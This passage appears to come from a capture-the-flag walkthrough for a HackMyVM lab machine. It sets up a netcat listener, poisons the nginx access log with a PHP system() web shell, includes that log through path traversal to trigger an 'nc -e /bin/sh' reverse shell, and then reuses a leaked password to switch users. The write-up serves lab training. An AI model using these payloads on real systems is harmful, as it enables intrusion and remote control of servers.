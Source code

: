 We start a listener on our host:

```
$ nc -lvnp 12345
```

Now, we poison the log and we try to get a reverse shell:

```
$ curl -i -v http://thetruthoftalos.hmv/index.php -A "<?php system(\$_REQUEST['cmd']);?>"
$ curl -i -v "http://thetruthoftalos.hmv/index.php?filename=....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F%2Fvar%2Flog%2Fnginx%2Faccess.log&cmd=nc%20-e%20/bin/sh%2010.0.1%2012345"
```

>I did my php payload from zsh, so I had to escape the "$":
{: .prompt-warning}


If the log poisoning worked, we will have shell as `www-data`, and we will have to treat our tty to be able to work comfortably:

First, we get our terminal size, in the host:

```
$ stty size
56 205
```

Now, we treat our new tty in [Principle 2][2]:

```
$ script /dev/null -c bash
CTRL+Z
$ stty raw -echo; fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
$ stty rows 56 columns 256
```

### User flag

We have Hermanubis' password for SMB, so let's see if he has the same password for his user:

```
$ su hermanubis
Password: ByronIsAsshole
```

Ok, it worked:

```
$ id
uid=1002(hermanubis) gid=1002(hermanubis) groups=1002(hermanubis

$ ls -la /home/hermanubis
...
lrwxrwxrwx 1 root       root          9 Nov 25 17:34 .bash_history -> /dev/null
-rwx------ 1 hermanubis hermanubis  220 Apr 23  2023 .bash_logout
-rwx------ 1 hermanubis hermanubis 3526 Apr 23  2023 .bashrc
-rwx------ 1 hermanubis hermanubis  264 Nov 23 21:18 investigation.txt
-rwx------ 1 hermanubis hermanubis  807 Apr 23  2023 .profile
drwxr-x--- 2 hermanubis hermanubis 4096 Nov 28 14:44 share
-rwx------ 1 hermanubis hermanubis 1080 Nov 25 17:29 user.txt
```


[1]: https://kaianperez.github.io
[2]: https://hackmyvm.eu/machines/machine.php?vm=Principle2